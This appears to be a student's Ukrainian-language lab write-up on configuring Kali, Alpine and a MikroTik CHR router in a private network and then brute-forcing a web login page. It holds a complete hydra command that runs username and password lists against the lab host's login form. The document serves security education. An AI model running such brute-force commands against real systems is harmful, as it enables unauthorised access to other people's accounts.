

# Cybersecurity Web App

## Налаштування Мережі

Спершу портібно налаштувати Kali на NAT Network , а Alpine - Host Only




Далі, потрібно налаштувати CHR так, щоб між ними звявився конешн. Для цього необіхдно використати наступні команди:


Як можете бачити, сетап відбувся успішно, і вони між собою пінгуються


Ось я знайшов сторінку, яка є нашою ціллю


Далі потрібно підібрати логін та пароль.

Я взяв 6 найтиповіших користувачів, та взяв вибірку паролів з минулих лаб, але відсіяв всі що менші за 8 символів


Для підбору я використав знайому вже мені `hydra` ось такою командою:

```jsx
hydra -L ./usernames.txt -P ./passwords0-20000.txt 192.168.56.12 http-post-form '/login.php:username=^USER^&password=^PASS^&wp-submit=Log+In:F=Invalid username'
```


